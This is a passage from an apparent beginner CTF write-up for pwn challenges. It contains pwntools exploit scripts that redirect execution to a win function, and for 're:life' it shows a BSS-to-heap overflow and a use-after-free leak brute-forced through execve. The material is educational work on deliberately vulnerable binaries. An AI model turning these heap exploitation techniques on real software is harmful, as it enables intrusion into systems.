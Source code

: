 ```py
# step 2a: we place the win function address on the heap via a note
p.sendlineafter(b"> ", b"1") # take down a note
p.sendlineafter(b"size: ", str(8*4).encode()) # note size
p.sendafter(b"content: ", b"x"*24 + p64(win)) # note content
p.sendlineafter(b"> ", b"2") # delete note
p.sendlineafter(b"remove: ", b"1") # index of note
p.sendlineafter(b"> ", b"4") # delete note

# step 2b: we execute the function
p.sendlineafter(b"> ", b"2") # dream!
p.sendlineafter(b"> ", b"1") # add a dream
p.sendlineafter(b"have? ", b"4") # 4 dreams
p.sendlineafter(b"> ", b"1") # dream about valorant
for i in range(2):
    p.sendlineafter(b"> ", b"1") # add a dream
    p.sendlineafter(b"> ", b"1") # dream about valorant
p.sendlineafter(b"> ", b"2") # start dreaming

p.interactive()
```

<br>

## Pwn - re:life

**Learning objective:** Abuse execve to do a BSS to heap overflow :D

<hr width="90%" color="grey" size="4px" />

The main crux of this challenge revolves around [this](https://github.com/n132/BeapOverflow).

This challenge is targetted at smurfs for this beginner CTF, and I think this challenge did a good job keeping the smurfs busy :)

### Step 1: BSS to Heap Overflow

Essentially, there is a integer overflow in `time_skip` function that gives us an overflow in the BSS region.

Typically, an overflow in the BSS region would be useless because it does not overflow into anything.

However, there is a 1 in 0x2000 chance where the BSS and heap will be adjacent, allowing us to overflow into the heap.

This challenge allows us to brute-force for this by re-running the program via `execve` and leaking the address by doing a UAF read on the players `lastName`.

```py
while True:

    p.sendlineafter(b"Action: ", b"8") # next life : execve to re-run program
    p.sendlineafter(b"Action: ", b"5") # adopt kid
    p.sendlineafter(b"Action: ", b"6") # disown kid : free lastName, but leaves a dangling pointer
    p.sendlineafter(b"Action: ", b"1") # read the dangling pointer to get heap leak

    p.recvuntil(b"Name: ")
    try:
        leak = unpack(p.recvline().split()[1], "all")
    except:
        continue
    i += 1
    stat.status(f"{i} {hex(leak)}")
    if leak == 0x405: # check if heap leak is adjacent to BSS
        break
```
